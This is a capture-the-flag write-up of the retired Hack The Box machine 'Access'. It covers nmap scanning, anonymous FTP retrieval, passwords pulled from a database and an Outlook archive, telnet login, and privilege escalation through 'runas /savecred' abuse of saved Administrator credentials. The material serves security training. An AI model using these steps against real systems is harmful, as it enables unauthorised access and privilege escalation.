

---
search:
  exclude: true
---
# Access Writeup

## Introduction :

Access is an easy Windows box that was released back in September 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
      → nmap 10.10.10.98 -F
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-03 11:18 CET
      Nmap scan report for 10.10.10.98
      Host is up (0.086s latency).
      Not shown: 97 filtered ports
      PORT   STATE SERVICE
      21/tcp open  ftp
      23/tcp open  telnet
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 2.82 seconds
    
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
    → nmap -sCV 10.10.10.98
    Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-03 12:30 CET
    Nmap scan report for 10.10.10.98
    Host is up (0.090s latency).
    Not shown: 997 filtered ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Cant get directory listing: PASV failed: 425 Cannot open data connection.
    | ftp-syst:
    |_  SYST: Windows_NT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 192.73 seconds
    
    

## **Part 2 : Getting User Access**

We see that our previous nmap scan came back with the ftp port opened, which seems to allow for anonymous logins so let's connect to it and see what we can do here.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB ]
    → ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:nihilist): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <****DIR>          Backups
    08-24-18  09:00PM <****DIR>          Engineer
    226 Transfer complete.

We have been able to login ! now let's see what lies within the Engineer and Backups folders.
    
    
    ftp> cd backups
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM              5652480 backup.mdb
    226 Transfer complete.
    ftp> get backup.mdb
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    cd ..
    WARNING! 28296 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    5652480 bytes received in 10.4 seconds (531 kbytes/s)
    ftp> cd ..
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <****DIR>          Backups
    08-24-18  09:00PM <****DIR>          Engineer
    226 Transfer complete.
    ftp> cd Engineer
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-24-18  12:16AM                10870 Access Control.zip
    226 Transfer complete.
    ftp> get Access\ Control.zip
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 45 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    10870 bytes received in 0.247 seconds (43 kbytes/s)
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-24-18  12:16AM                10870 Access Control.zip
    226 Transfer complete.
    ftp> quit
    221 Goodbye.

We have been able to download a zip file named "Access Control" and a mdb file named "Backup" let's see if we can extract the contents of the zip file using the 7z command. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
    → 7z x Access\ Control.zip
    
    7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
    p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Pentium(R) Silver N5000 CPU @ 1.10GHz (706A1),ASM,AES-NI)
    
    Scanning the drive for archives:
    1 file, 10870 bytes (11 KiB)
    
    Extracting archive: Access Control.zip
    --
    Path = Access Control.zip
    Type = zip
    Physical Size = 10870
    
    
    Enter password (will not be echoed):
    ERROR: Wrong password : Access Control.pst
    
    Sub items Errors: 1
    
    Archives with Errors: 1
    
    Sub items Errors: 1
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
    → ls
    'Access Control.pst'  'Access Control.zip'   backup.mdb
    
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
    → file backup.mdb
    backup.mdb: Microsoft Access Database
    

We use a hex editor to see that we find a suspect string, which is actually a password to work with : access4u@security
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
      → 7z x Access\ Control.zip -paccess4u@security
    
      7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
      p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Pentium(R) Silver N5000 CPU @ 1.10GHz (706A1),ASM,AES-NI)
    
      Scanning the drive for archives:
      1 file, 10870 bytes (11 KiB)
    
      Extracting archive: Access Control.zip
      --
      Path = Access Control.zip
      Type = zip
      Physical Size = 10870
    
      Everything is Ok
    
      Size:       271360
      Compressed: 10870
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
      → ls
      'Access Control.pst'  'Access Control.zip'   backup.mdb
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Access ]
      → file Access\ Control.pst
      Access Control.pst: Microsoft Outlook email folder (>=2003)
    
    

it worked ! now we have a new file to work with : Access Control.pst Which seems to be a MS Outlook email folder. We simply need to use a pst-reading tool named [readpst](https://www.five-ten-sg.com/libpst/rn01re01.html), which is basically made to extract a the .mbox file out of any .pst formatted-file. Which then in turn gives us yet another password to work with : 4Cc3ssC0ntr0ller.  We now have potential credentials : security:4Cc3ssC0ntr0ller 
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Access] → telnet 10.10.10.98
      Trying 10.10.10.98...
      Connected to 10.10.10.98.
      Escape character is '^]'.
      Welcome to Microsoft Telnet Service
    
      login: security
      password:
    
      *===============================================================
      Microsoft Telnet Server.
      *===============================================================
      C:\Users\security>dir
       Volume in drive C has no label.
       Volume Serial Number is 9C45-DBF0
    
       Directory of C:\Users\security
    
      08/23/2018  10:52 PM    <****DIR>          .
      08/23/2018  10:52 PM <****DIR>          ..
      08/24/2018  07:37 PM <****DIR>          .yawcam
      08/21/2018  10:35 PM <****DIR>          Contacts
      08/28/2018  06:51 AM <****DIR>          Desktop
      08/21/2018  10:35 PM <****DIR>          Documents
      08/21/2018  10:35 PM <****DIR>          Downloads
      08/21/2018  10:35 PM <****DIR>          Favorites
      08/21/2018  10:35 PM <****DIR>          Links
      08/21/2018  10:35 PM <****DIR>          Music
      08/21/2018  10:35 PM <****DIR>          Pictures
      08/21/2018  10:35 PM <****DIR>          Saved Games
      08/21/2018  10:35 PM <****DIR>          Searches
      08/24/2018  07:39 PM <****DIR>          Videos
                     0 File(s)              0 bytes
                    14 Dir(s)  16,771,465,216 bytes free
    
      C:\Users\security>

and we're in ! We have been to use the aforementionned credentials when we tried to login through the telnet service on port 23. 
    
    
      C:\Users\security>cd Desktop
    
    C:\Users\security\Desktop>type user.txt
    ffXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Let's have a look around the telnet service to see what we can work with.
    
    
      C:\Users>dir
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    
     Directory of C:\Users
    
    08/21/2018  10:31 PM    <****DIR>          .
    08/21/2018  10:31 PM <****DIR>          ..
    08/23/2018  11:46 PM <****DIR>          Administrator
    07/14/2009  04:57 AM <****DIR>          Public
    08/23/2018  10:52 PM <****DIR>          security
                   0 File(s)              0 bytes
                   5 Dir(s)  16,771,461,120 bytes free
    
    C:\Users>cd Public
    
    C:\Users\Public>dir
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    
     Directory of C:\Users\Public
    
    07/14/2009  04:57 AM <****DIR>          .
    07/14/2009  04:57 AM <****DIR>          ..
    07/14/2009  05:06 AM <****DIR>          Documents
    07/14/2009  04:57 AM <****DIR>          Downloads
    07/14/2009  04:57 AM <****DIR>          Music
    07/14/2009  04:57 AM <****DIR>          Pictures
    07/14/2009  04:57 AM <****DIR>          Videos
                   0 File(s)              0 bytes
                   7 Dir(s)  16,771,461,120 bytes free
    
    C:\Users\Public>cd
    C:\Users\Public
    
    C:\Users\Public>dir \a
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    
     Directory of C:\
    
    File Not Found
    
    C:\Users\Public>cd /a
    The system cannot find the path specified.
    
    C:\Users\Public>dir /a
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    
     Directory of C:\Users\Public
    
    07/14/2009  04:57 AM <****DIR>          .
    07/14/2009  04:57 AM <****DIR>          ..
    08/28/2018  06:51 AM <****DIR>          Desktop
    07/14/2009  04:57 AM               174 desktop.ini
    07/14/2009  05:06 AM <****DIR>          Documents
    07/14/2009  04:57 AM <****DIR>          Downloads
    07/14/2009  02:34 AM <****DIR>          Favorites
    07/14/2009  04:57 AM <****DIR>          Libraries
    07/14/2009  04:57 AM <****DIR>          Music
    07/14/2009  04:57 AM <****DIR>          Pictures
    07/14/2009  04:57 AM <****DIR>          Videos
                   1 File(s)            174 bytes
                  10 Dir(s)  16,771,461,120 bytes free
    
    C:\Users\Public>cd Desktop
    
    C:\Users\Public\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    
     Directory of C:\Users\Public\Desktop
    
    08/22/2018  09:18 PM             1,870 ZKAccess3.5 Security System.lnk
                   1 File(s)          1,870 bytes
                   0 Dir(s)  16,771,461,120 bytes free

Looks like we have a shortcut file we can work with, the (lnk) stands for link file.
    
    
      C:\Users\Public\Desktop>type "ZKAccess3.5 Security System.lnk"
    L�F�@ ��7���7���#�P/P�O� �:i�+00�/C:\R1M�:Windows��:��M�:*wWindowsV1MV�System32��:��MV�*�System32X2P�:�
                                                                                                            runas.exe��:1��:1�*Yrunas.exeL-K��E�C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico�%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico�%�
                                                                                                  �wN���]N�D.��Q���`�Xaccess�_���8{E�3
                  O�j)�H���
                           )ΰ[�_���8{E�3
                                        O�j)�H���
                                                 )ΰ[�	��1SPS�XF�L8C���&�m�e*S-1-5-21-953262931-566350628-63446256-500
    
    

This looks like an attempt at creating a password backup file using the runas command.
    
    
      C:\Users\Public\Desktop>runas /savecred /user:ACCESS\Administrator "cmd.exe /C type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Searches\out.txt"
    
    C:\Users\Public\Desktop>type out.txt
    The system cannot find the file specified.
    
    C:\Users\Public\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    
     Directory of C:\Users\Public\Desktop
    
    08/22/2018  09:18 PM             1,870 ZKAccess3.5 Security System.lnk
                   1 File(s)          1,870 bytes
                   0 Dir(s)  16,771,452,928 bytes free
    
    C:\Users\Public\Desktop>cd ..
    
    C:\Users\Public>cd ..
    
    C:\Users>cd Security
    
    C:\Users\security>cd Searches
    
    C:\Users\security\Searches>type out.txt
    
    6eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the root flag ! 

## **Conclusion**

Here we can see the progress graph :

